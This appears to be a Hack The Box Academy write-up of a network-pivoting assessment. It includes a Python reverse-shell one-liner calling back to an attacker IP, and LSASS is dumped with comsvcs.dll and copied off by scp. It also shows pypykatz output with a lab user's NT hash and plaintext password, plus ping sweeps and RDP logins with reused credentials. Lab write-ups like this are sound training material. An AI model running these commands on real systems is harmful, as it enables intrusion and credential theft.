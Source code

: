 # Assessment

## Enumeration

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption><p>webadmin</p></figcaption></figure>

Seems to be a Linux host running on this system and there are 2 interfaces as below.

<figure><img src="../../.gitbook/assets/image (31) (1).png" alt=""><figcaption><p>another network segment that we could use to pivot.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption><p>mlefay:Plain Human work!</p></figcaption></figure>

I decided to get a reverse shell for more control over the foothold sytem.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",7890));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

<figure><img src="../../.gitbook/assets/image (69).png" alt=""><figcaption><p>but it wasn't nessesary</p></figcaption></figure>

I moved the id\_rsa file and ssh to the system with that file. Now I'm in the system with the same credentials but with ssh.

Next I will try to dynamic port forward with ssh.

Then perform nmap scan to find the host that are up.

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption><p>172.16.5.35</p></figcaption></figure>

## Scan Host2

**Scan result**

```
Nmap scan report for 172.16.5.35
Host is up (0.20s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 204.43 seconds
```

now we know that RDP is open on this system we can try to use the credentials against the this host.

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption><p>pivot-srv01/mlefay</p></figcaption></figure>

We got access to the pivot-srv01/mlefay and as a local Admin.&#x20;

```
PS C:\Windows\system32> Get-WmiObject -Class Win32_UserAccount -Filter "LocalAccount='True' AND Disabled='False'"

AccountType : 512
Caption     : PIVOT-SRV01\Administrator
Domain      : PIVOT-SRV01
SID         : S-1-5-21-1602415334-2376822715-119304339-500
FullName    :
Name        : Administrator

AccountType : 512
Caption     : PIVOT-SRV01\apendragon
Domain      : PIVOT-SRV01
SID         : S-1-5-21-1602415334-2376822715-119304339-1002
FullName    : apendragon
Name        : apendragon

AccountType : 512
Caption     : PIVOT-SRV01\mlefay
Domain      : PIVOT-SRV01
SID         : S-1-5-21-1602415334-2376822715-119304339-1003
FullName    : mlefay
Name        : mlefay
```

**2nd Interface 172.16.6.35**

```
PS C:\Windows\system32> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::7dab:2573:1024:6c4a%4
   IPv4 Address. . . . . . . . . . . : 172.16.5.35
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 172.16.5.1

Ethernet adapter Ethernet1 2:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::e041:c210:35fe:c55a%5
   IPv4 Address. . . . . . . . . . . : 172.16.6.35
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . :
```

To find the users credentials through the lsass filem, we dump the lsass process and scp to the webadmin host using the following command.

```powershell
Get-Process lsass
# get the process lsass was running

rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
# dump the lsass

scp -i .\id_rsa C:\lsass.dmp webadmin@172.16.5.15:~/
# transfer the lsass to webadmin
```

Properties -> Security -> Advanced -> Disable inheritance -> Add -> Select a principal -> Enter the object name to select (add windows username) -> (check full control) -> OK -> Apply -> OK

All the above settings is just to set the permission of the id\_rsa file `chmod 0400 id_rsa` 😒

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption><p>make sure the orders are correct because Windows is trash.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption><p>Transfer file from pivot host to </p></figcaption></figure>

using `pypykatz lsa minidump lsass.dmp` we found the user `vfrank:Imply wet Unmasked!`

```
== LogonSession ==
authentication_id 160373 (27275)
session_id 0
username vfrank
domainname INLANEFREIGHT
logon_server ACADEMY-PIVOT-D
logon_time 2023-07-02T11:06:10.741078+00:00
sid S-1-5-21-3858284412-1730064152-742000644-1103
luid 160373
        == MSV ==
                Username: vfrank
                Domain: INLANEFREIGHT
                LM: NA
                NT: 2e16a00be74fa0bf862b4256d0347e83
                SHA1: b055c7614a5520ea0fc1184ac02c88096e447e0b
                DPAPI: 97ead6d940822b2c57b18885ffcc5fb4
        == WDIGEST [27275]==
                username vfrank
                domainname INLANEFREIGHT
                password None
                password (hex)
        == Kerberos ==
                Username: vfrank
                Domain: INLANEFREIGHT.LOCAL
                Password: Imply wet Unmasked!
                password (hex)49006d0070006c0079002000770065007400200055006e006d00610073006b006500640021000000
        == WDIGEST [27275]==
                username vfrank
                domainname INLANEFREIGHT
                password None
                password (hex)
        == DPAPI [27275]==
                luid 160373
                key_guid 560f4286-76f2-4f0f-90a9-5135bbc0104f
                masterkey 4fc3adb204f30f6a226f637b66be93811cee121eaed0e4ec2e8bc023d2d38d396e0c4e827aa49c6b1c2a58f6428ca725be027497ad10f8dd386d5926e7bf73b7
                sha1_masterkey a3e3a61d9a74541a56c3a822d5470bedbb2d4fb5
```

I then performed a **ping sweep** on the 172.16.6.X to find another host to pivot to using cmd.

```
for /L %i in (1,1,255) do @ping -n 1 -w 200 172.16.6.%i > nul && echo 172.16.6.%i is up
```

and we found the following address

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption><p>172.16.6.25</p></figcaption></figure>

Since 172.16.6.35 is our address we can ignore that and focus on 172.16.6.25

Now that we know the ipaddress of the target and we have the credentials, next is to try remote desktop connection (we know from the question of hack the box that the target is running windows. becase the flag is located in C:\Flag.txt)

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption><p>And just like that we are in and got the flag.</p></figcaption></figure>

next we found another interface on this machine and seems like we have to perform double pivots. However I'm not sure about the credentials on the Domain Controller.

It was not the case here. I found the flag in the C directory where the DC admin files system was already mounted lol

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>
